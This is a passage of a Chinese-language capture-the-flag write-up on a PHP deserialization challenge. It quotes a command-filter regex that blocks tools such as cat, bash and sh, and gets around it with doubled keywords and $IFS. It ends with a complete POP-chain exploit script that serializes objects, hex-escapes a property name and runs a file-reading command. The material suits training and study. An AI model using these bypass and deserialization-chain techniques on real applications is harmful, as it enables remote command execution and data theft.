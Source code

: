 
3. 要求反序列化后`$anth`的内容是`waterbucket`，那么`$auth`原来的值应为`s:11:"waterbucket";`  
    ```php
    if(unserialize($this->auth)=="waterbucket")
    ```
4. 命令会被过滤可以用双写绕过    
    ```php
    this->cmd = preg_replace("/ls|cat|tac|more|sort|head|tail|nl|less|flag|cd|tee|bash|sh|&|^|>|<|\.| |'|`|\(|\"/i","",$this->cmd);
    ```

最终pop链：  
```php
<?php
class GGbond{
    public $candy;
}

class unser{
    public $obj;
    public $auth;
}

class ZYPC{
    public $cmd='cacatt$IFS$9/f*|teteee$IFS$91.txt';
}

class ZY{
    public $obj;
    public $flag;
    public $auth='s:11:"waterbucket";';
}
$pop=new unser();
$pop->obj=new ZY();
$pop->obj->obj=new GGbond();
$pop->obj->obj->candy=new ZY();
$pop->obj->obj->candy->flag=new ZYPC();
echo preg_replace('/s:4:"flag"/','S:4:"\\\66\\\6c\\\61\\\67"',serialize($pop));
```
